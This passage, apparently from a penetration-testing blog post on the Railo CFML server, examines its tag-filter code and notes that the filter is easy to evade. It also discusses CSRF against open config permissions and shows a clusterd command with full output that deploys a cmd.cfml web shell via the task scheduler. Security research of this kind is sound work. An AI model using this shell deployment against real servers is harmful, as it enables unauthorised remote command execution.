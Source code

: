 ```
    if(compareTagName(tagName)) {
                if(sb==null) {
                    sb=new StringBuffer();
                    last=0;
                }
                sb.append(str.substring(last,index+1));
                sb.append("invalidTag");
                last=endIndex;
            }
```

It doesn't take much to evade this filter, as I've already described.

CSRF kinda fits in here, how about CSRF?  Fortunately for users, and unfortunately for pentesters, there's not much we can do.  Although Railo does not enforce authentication for CFML/CFC pages, it does check read/write permissions on all accesses to the backend config file.  This is configured in the Server interface:

{{< figure src="/images/posts/2014/railo/railo-server-pw.jpg" >}}

In the above image, if `Access Write` was configured to `open`, any user could submit modifications to the back-end configuration, including password resets, task scheduling, and more.  Though this is sufficiently locked down by default, this could provide a nice backdoor.

#### Deploying
Much like Coldfusion, Railo features a task scheduler that can be used to deploy shells.  A run of this in clusterd can be seen below:

```
$ ./clusterd.py -i192.168.1.219 -a railo -v4.1 --deploy ./src/lib/resources/cmd.cfml --deployer task --usr-auth default

        clusterd/0.2.1 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-01 10:04PM] Started at 2014-05-01 10:04PM
 [2014-05-01 10:04PM] Servers' OS hinted at windows
 [2014-05-01 10:04PM] Fingerprinting host '192.168.1.219'
 [2014-05-01 10:04PM] Server hinted at 'railo'
 [2014-05-01 10:04PM] Checking railo version 4.1 Railo Server...
 [2014-05-01 10:04PM] Checking railo version 4.1 Railo Server Administrator...
 [2014-05-01 10:04PM] Checking railo version 4.1 Railo Web Administrator...
 [2014-05-01 10:04PM] Matched 3 fingerprints for service railo
 [2014-05-01 10:04PM]   Railo Server (version 4.1)
 [2014-05-01 10:04PM]   Railo Server Administrator (version 4.1)
 [2014-05-01 10:04PM]   Railo Web Administrator (version 4.1)
 [2014-05-01 10:04PM] Fingerprinting completed.
 [2014-05-01 10:04PM] This deployer (schedule_task) requires an external listening port (8000).  Continue? [Y/n] > 
 [2014-05-01 10:04PM] Preparing to deploy cmd.cfml..
 [2014-05-01 10:04PM] Creating scheduled task...
 [2014-05-01 10:04PM] Task cmd.cfml created, invoking...
 [2014-05-01 10:04PM] Waiting for remote server to download file [8s]]
 [2014-05-01 10:04PM] cmd.cfml deployed to /cmd.cfml
 [2014-05-01 10:04PM] Cleaning up...
 [2014-05-01 10:04PM] Finished at 2014-05-01 10:04PM
```
